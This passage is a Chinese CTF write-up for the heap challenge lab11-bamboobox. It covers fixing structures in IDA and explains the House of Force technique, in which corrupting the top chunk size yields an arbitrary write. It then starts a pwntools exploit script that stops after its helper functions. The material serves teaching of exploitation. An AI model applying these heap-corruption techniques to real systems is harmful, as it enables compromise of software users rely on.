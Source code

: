 > 说一下怎么修复 IDA 中的结构体
>
> 识别出结构体的具体结构后
>
> - shift+F1, insert 插入识别出的结果
>
>   ![](http://ww1.sinaimg.cn/large/006AWYXBly1fq30oi6hn6j30qt0hgjsc.jpg)
>
> - shift+F9, insert 导入我们刚添加的 local type
>
>   ![](http://ww1.sinaimg.cn/large/006AWYXBly1fq30podbi2j31490m8jwq.jpg)
>
> - 然后我们在结构体变量上 y 一下，制定其数据类型即可
>
>   ![](http://ww1.sinaimg.cn/large/006AWYXBly1fq30qp97hyj30nn06zt9k.jpg)
>
> - 修复的效果图如下：
>
>   ![](http://ww1.sinaimg.cn/large/006AWYXBly1fq30rb5bzyj30gd03lmxn.jpg)

### lab11-bamboobox

可以种 house of force，也可以使用 unsafe unlink，先说 house of force 的方法

#### house of force

简单说一下我对 hof 的理解，如果我们能控制 **top\_chunk** 的 **size**，那么我们就可以通过控制 malloc 一些精心设计的**大数/负数**来实现控制 top\_chunk 的指针，就可以实现任意地址写的效果，个人感觉，hof 的核心思想就在这个 force 上，疯狂 malloc，简单粗暴效果明显

```python
lab11 [master●] cat hof.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from zio import l64
from time import sleep
import sys
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

io = process("./bamboobox")

def DEBUG():
	raw_input("DEBUG: ")
	gdb.attach(io)


def add(length, name):
    io.sendlineafter(":", "2")
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)

def change(idx, length, name):
    io.sendlineafter(":", "3")
    io.sendlineafter(":", str(idx))
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)

def exit():
    io.sendlineafter(":", "5")

if __name__ == "__main__":
    add(0x60, cyclic(0x60))
```